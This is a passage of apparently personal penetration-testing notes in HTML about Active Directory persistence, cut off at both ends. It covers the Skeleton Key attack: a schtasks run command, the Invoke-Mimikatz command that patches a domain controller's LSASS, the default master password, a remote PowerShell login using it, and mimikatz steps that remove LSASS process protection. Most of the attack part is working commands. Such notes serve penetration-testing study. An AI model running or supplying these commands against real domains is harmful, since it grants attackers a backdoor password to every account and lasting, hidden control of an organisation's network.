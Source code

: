 schtasks /Run /S target.0xd4y_notes.local /TN &quot;Follow0xd4yTask&quot;</code></pre><h2 id="7c8e70f2-738b-4798-a034-ac4cdfb905e8" class="">Skeleton Key</h2><ul id="6ce2203c-73a8-4a67-9fa8-e0091945f115" class="bulleted-list"><li style="list-style-type:disc">patches DC to allow access to any user with single password </li></ul><ul id="676a494b-4326-4067-a7f3-dcf779b3a790" class="bulleted-list"><li style="list-style-type:disc">indefinite persistence as long as the target does not reboot<ul id="dd1fc7fc-fbbf-4425-9979-45facda310e4" class="bulleted-list"><li style="list-style-type:circle">usually people reboot the DC every month or several months</li></ul></li></ul><ul id="a9ce4049-846d-4954-8503-fe442ea7c117" class="bulleted-list"><li style="list-style-type:disc">only works against machines that authenticate to the patched DC</li></ul><ul id="53bd59c6-de8b-4293-8c8b-060524a8b9cd" class="bulleted-list"><li style="list-style-type:disc">can only patch LSASS once per reboot<ul id="939405d4-1114-435a-b1a5-ac2ca4bbf8b7" class="bulleted-list"><li style="list-style-type:circle">otherwise the following error occurs: <code>ERROR kul_m_misc_skeleton ; Second pattern not found</code></li></ul></li></ul><ul id="805468fc-4686-4957-8943-45d9a049ba73" class="bulleted-list"><li style="list-style-type:disc">note that this attack does not overwrite any password</li></ul><p id="abbb69e8-328b-44d8-b3a4-2d8d4b60c915" class=""><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong>Creating Skeleton Key</strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></p><pre id="d18558e0-a97c-4360-ab0a-36fd7d40391e" class="code"><code>Invoke-Mimikatz -Command &#x27;&quot;privilege::debug&quot; &quot;misc::skeleton&quot;&#x27; -ComputerName follow-dc.0xd4y_notes.local</code></pre><ul id="211316fc-ce95-4196-9b88-77909c077935" class="bulleted-list"><li style="list-style-type:disc">password is <code>mimikatz</code>, always change this! </li></ul><ul id="3f8bbfbd-ed47-4efc-b6f3-f6ae909216e9" class="bulleted-list"><li style="list-style-type:disc">you can then do <code>Enter-PSSession -ComputerName target.0xd4y_notes.local -Credential examplecorp\Administrator</code><ul id="83d848de-1d03-498b-9731-269317ea39fc" class="bulleted-list"><li style="list-style-type:circle">enter skeleton key password, or legitimate </li></ul></li></ul><p id="fd00f6e2-1321-47cd-b486-6e2aa529ab25" class=""><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong>Removal of LSASS Protection</strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></p><p id="e5208057-fe6e-4cca-b3c8-a088d9f5f53c" class="">If LSASS is a protected process, you must run the following:</p><pre id="d2ab1286-5354-4d8a-bc44-3012a77a4329" class="code"><code>privilege::debug
!+
!processprotect /process:lsass.exe /remove
misc::skeleton
